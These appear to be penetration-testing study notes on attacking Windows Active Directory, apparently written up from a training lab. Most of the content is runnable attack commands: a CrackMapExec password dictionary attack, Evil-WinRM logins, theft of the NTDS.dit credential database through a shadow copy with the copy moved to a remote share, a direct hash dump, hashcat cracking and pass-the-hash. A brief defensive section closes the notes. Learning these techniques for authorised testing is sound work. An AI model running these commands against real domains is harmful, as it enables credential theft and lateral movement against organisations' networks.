 

## Domain Authentication Basics

- Domain-joined systems use **Domain Controller (DC)** for authentication.
    
- Local logins still possible with:
    
    - `hostname\username`
        
    - `.\username`
        
- Key components:
    
    - `lsass.exe`
        
    - NTLM & Kerberos
        
    - Active Directory Domain Services
        

---

## Dictionary Attacks on AD

- Use **wordlists** of common usernames + passwords.
    
- Tools: **CrackMapExec (CME)**
    
- Common username formats:
    
    - `jdoe`
        
    - `janedoe`
        
    - `jane.doe`
        
    - `doe.jane`
        
- Generate usernames:
    
    ```
    ./username-anarchy -i names.txt
    ```
    
- Attack example:
    
    ```
    crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
    ```
    
- Results:
    
    - Success → CME shows valid login
        
    - Fail → STATUS_LOGON_FAILURE
        
- Risk: account lockouts (Event ID 4776 logged in Security Logs).
    

---

## NTDS.dit (AD Database)

- Location: `%SystemRoot%\NTDS\NTDS.dit`
    
- Contains all AD users, password hashes, schema info.
    

### Privileges Needed

- Local Admin or Domain Admin required to copy/dump.
    

### Access with Evil-WinRM

```
evil-winrm -i 10.129.201.57 -u bwilliamson -p 'P@55w0rd!'

net localgroup

net user bwilliamson

```

---

## Dumping NTDS.dit

### Method 1 – Shadow Copy

```
vssadmin CREATE SHADOW /For=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\NTDS\NTDS.dit
move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

### Method 2 – CrackMapExec (Direct Dump)

```
crackmapexec smb 10.129.201.57 -u bwilliamson -p 'P@55w0rd!' --ntds
```

---

## Cracking Extracted Hashes

**Hashcat NTLM mode (1000):**

```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

Example:

```
64f12cddaa88057e06a81b54e73b949b:Password1
```

---

## Pass-the-Hash (PtH)

Use NTLM hash directly (no cracking required):

```
evil-winrm -i 10.129.201.57 -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

- Useful for **lateral movement**.
    

---

## Key Defensive Notes

- Monitor for **Event ID 4776** (failed logons).
    
- Restrict **Domain Admin rights**.
    
- Monitor **shadow copy creation**.
    
- Enforce strong password policies and lockouts.
    